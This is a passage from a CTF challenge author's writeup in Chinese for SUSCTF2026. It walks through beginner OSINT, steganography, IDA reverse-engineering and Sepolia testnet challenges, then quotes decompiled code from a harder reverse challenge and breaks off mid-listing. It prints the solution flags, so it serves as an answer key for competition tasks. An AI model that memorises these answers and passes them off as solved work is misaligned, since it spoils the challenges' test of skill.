<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

> 第一次参与CTF正式赛事的出题工作，非常感谢群主大大的信任和支持，以及各位师傅的包容 molmol
>
> 这份 Writeup 是从出题人视角写的，里面附了一些有趣的切片和出题人的碎碎念😀 大家可以当个乐子看看不用较真~
>
> 官方 Writeup 会迟几天发布 🌹

## Tutorial

> Turorial 是新增的方向，主要是在第一天中午先放出几个难度不大的题目，帮助一些新师傅适应一下做题环境，包括一些工具的下载和使用、动态容器的使用。

### [OSINT\] Easter Egg\-1

> 细心的你也许在**开赛前**就已经找到一个flag了？

首先非常欢迎各位师傅来到SUSCTF2026！Happy hacking\~

根据题目所述，在开赛前就能够找到flag，而本题既没有容器也没有附件，那么flag只能藏在平台本身或者一个每个选手都有的东西——海报。

仔细观察可以发现，中间“SUSCTF”几个字母中混入了非0，1的字符，从左到右逐一识别即可得到最终的flag。

```text
susctf{a_gift_for_all_pl4yer5_Welcom3!}
```



我不行了谁家的大模型视觉能力这么厉害()谁懂审 wp 笑出腹肌了

还有这个，这个情报搜集能力我给满分



怎么还有 SU 的事情（

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### 
$$
Misc
$$
 Easter Egg\-2

> 要找到这个flag需要亿点点注意力👀
>
> 也许直接看是找不到弗拉格的，需要一点点Steganography知识...

**这个题真的给师傅们滑跪了...我不是很擅长整理文件，电脑里面好几个海报不小心弄混了**

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

注意到给出了svg海报，由于svg是矢量图片，矢量图形本身不会给出flag，那么矢量图中的图片似乎是唯一线索。我们需要从中提取出图片。

用文本编辑器、十六进制编辑器打开，可以发现里面字符都是纯文本。svg是一种基于xml的图形格式，根据图片嵌入的语法规则，搜索image可以找到出对应的图片（base64形式），用cyberchef转为字节，再保存为二进制文件即可。

最终在那张群二维码的图片，发现进行了LSB\(最低有效位\)隐写



或使用StegOnline/Stegsolve



解码可得flag2:

```text
susctf{Wowww_LSB_can_h1de_mess4ges!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### [Reverse\] Classical

> 是时候呼叫IDA Pro啦！
>
> 期待你轻松破解走向二进制大嘿克！的第一关😊

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

安装IDA是必要的步骤\(\)



启动之后我们来到了经典界面。main函数被正确识别，于是我们直接按下F5反编译即可

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char ctfreverse[75]; // [rsp+5h] [rbp-5Bh] BYREF
  __int64 v5; // [rsp+50h] [rbp-10h]
  __int64 v6; // [rsp+58h] [rbp-8h]

  strcpy(ctfreverse, "ctfreverse");
  puts("Try to guess my secret!");
  fgets(&ctfreverse[11], 61, stdin);
  ctfreverse[strcspn(&ctfreverse[11], "\r\n") + 11] = 0;
  v6 = trans();
  v5 = classical(&ctfreverse[11], ctfreverse);
  if ( (unsigned int)check(v5, v6) )
  {
    printf("Wowww, you find my secret! Submit susctf{<my secret>} as flag!");
    puts("\nEnjoy ctf competition and GOOD LUCK!");
  }
  else
  {
    puts("Sorry! It seems you need to try again! Come on!");
  }
  return 0;
}
```

IDA能够识别大致逻辑，但是无法精准还原源代码。将光标置于变量名上，按n可以进行rename操作。



很明显encrypted和target都是字符数组，可以进入check，trans，classical三个函数按y修改返回类型，再重新F5





同时，可以发现一个很奇怪的量`&key[11]`。key只有11字节，ida错误地推断连续75字节都是key数组。点击右边的淡蓝色字，可以修改stack布局。



现在的流程已经比较清楚了。

通过类似方法可以还原出classical和trans函数的流程。





分析可知，trans把固定的十六进制密文值转换为字符串，classical则是**Vigenère加密**，这是一种古典密码（`Classical cipher`\)\.

利用cyberchef可以解密





可得flag:

```text
susctf{De4r Newcom3rs, Welc0me to 7he World of Rev3rse En91neer1ng!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### 
$$
Web3
$$
 V me 50

> 今天不是星期四，~~V我50~~ 0.001 SepoliaETH
>
> PS: 初识 Web3 也许会面对很多新概念，不用着急~
>
> PSS: 如果你是白手起家，也许[这里](https://getsepolia.2bd.net/)或者[这里](https://sepolia-faucet.pk910.de/)会有你需要的东西。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

emm没什么好说的，V了就给flag



只是由于calldata里面要放team\_id，所以需要用脚本进行交易

```python
from web3 import Web3
import argparse

p = argparse.ArgumentParser()
p.add_argument("--rpc", required=True)
p.add_argument("--key", required=True)
p.add_argument("--target", required=True)
p.add_argument("--team-id", required=True)
args = p.parse_args()

w3 = Web3(Web3.HTTPProvider(args.rpc))
account = w3.eth.account.from_key(args.key)

data = f"team_{args.team_id}".encode()

tx = {
    "from": account.address,
    "to": Web3.to_checksum_address(args.target),
    "value": w3.to_wei(0.001, "ether"),
    "data": data,
    "nonce": w3.eth.get_transaction_count(account.address),
    "chainId": 11155111,  # Sepolia
    "gasPrice": w3.eth.gas_price,
}

tx["gas"] = w3.eth.estimate_gas(tx)

signed = account.sign_transaction(tx)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)

print("calldata:", data.decode())
print("tx hash :", tx_hash.hex())

receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
print("status  :", receipt.status)
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

```text
susctf{He1lo-Eth3r3um_a754d64b}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

## Reverse

### 我要当英语糕手

> 参加SUSCTF2026的小黑客里面有没有英语糕手呢😏

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

flag1只需要猜单词即可

flag2，目标是输入一串字符（提交hex\)，使得其经过题目加密后等于猜出单词拼成的单词链。

打开ida直接吓哭了，主函数800多行~~（这就是内联的威力\.\.\.~~。

> 好几位师傅卡在 flag2 了，在这里也说句抱歉，好像编译的时候不小心**开了-O2** 😭 不过借助 AI 应该能还原个七七八八~

但是不必惊慌，因为这是一个交互题，大部分时候其实在处理交互逻辑。

我们慢慢翻，可以找到正确分支



抓住核心代码

```c++
if ( n2_1 != 3 )
        {
          nc_2 = (0x12uLL >> n2_1) & 1;
          ptr_7 = ptr_6;
          if ( strlen(ptr_6) == 2 * size_6 )
          {
            for ( i = 0; size_6 != i; ++i )
            {
              v88 = ptr_7[2 * i];
              if ( (unsigned __int8)(ptr_7[2 * i] - 48) > 9u )
              {
                if ( (unsigned __int8)(v88 - 97) <= 5u )
                {
                  v85 = v88 - 87;
                }
                else
                {
                  n6 = v88 - 65;
                  v85 = v88 - 55;
                  if ( n6 >= 6u )
                    v85 = -1;
                }
              }
              else
              {
                v85 = v88 - 48;
              }
              v86 = ptr_7[2 * i + 1];
              if ( (unsigned __int8)(v86 - 48) <= 9u )
              {
                v87 = v86 - 48;
              }
              else if ( (unsigned __int8)(v86 - 97) <= 5u )
              {
                v87 = v86 - 87;
              }
              else
              {
                if ( (unsigned __int8)(v86 - 65) > 5u )
                  goto LABEL_159;
                v87 = v86 - 55;
              }
              if ( v85 == -1 )
                goto LABEL_159;
              ptr_8[i] = v87 | (16 * v85);
            }
            nc = i;
            nc_1 = nc_2;
            free(ptr_7);
            si128 = _mm_load_si128((const __m128i *)&xmmword_4C50);
            n16 = 0;
            v92 = _mm_load_si128((const __m128i *)&xmmword_4C60);
            v93 = _mm_load_si128((const __m128i *)&xmmword_4C70);
            v94 = _mm_load_si128((const __m128i *)&xmmword_4C90);
            v95 = _mm_load_si128((const __m128i *)&xmmword_4C80);
            v96 = _mm_load_si128((const __m128i *)&xmmword_4CB0);
            v97 = _mm_load_si128((const __m128i *)&xmmword_4CA0);
            do
            {
              v98 = _mm_add_epi32(si128, v92);
              v99 = _mm_unpackhi_epi16(si128, v98);
              v100 = _mm_add_epi32(si128, v95);
              v101 = _mm_unpacklo_epi16(si128, v98);
              v102 = _mm_unpacklo_epi16(v101, v99);
              v103 = _mm_unpackhi_epi16(v101, v99);
              si128_1 = si128;
              si128 = _mm_add_epi32(si128, v97);
              v105 = _mm_unpacklo_epi16(v102, v103);
              v106 = _mm_add_epi32(si128_1, v93);
              v107 = _mm_unpacklo_epi16(v106, v100);
              v108 = _mm_unpackhi_epi16(v106, v100);
              tp[n16++] = (struct timespec)_mm_add_epi8(
                                             _mm_packus_epi16(
                                               _mm_and_si128(v105, v94),
                                               _mm_and_si128(
                                                 _mm_unpacklo_epi16(
                                                   _mm_unpacklo_epi16(v107, v108),
                                                   _mm_unpackhi_epi16(v107, v108)),
                                                 v94)),
                                             v96);
            }
            while ( n16 != 16 );
            tp_1 = tp;
            v110 = 0;
            n256 = 0;
            do
            {
              n256_1 = n256;
              tv_sec_low = LOBYTE(tp_1->tv_sec);
              ++n256;
              tp_1 = (struct timespec *)((char *)tp_1 + 1);
              v110 += tv_sec_low + (unsigned __int8)v138[n256_1 & 0xF];
              HIBYTE(tp_1[-1].tv_nsec) = *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v110);
              *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v110) = tv_sec_low;
            }
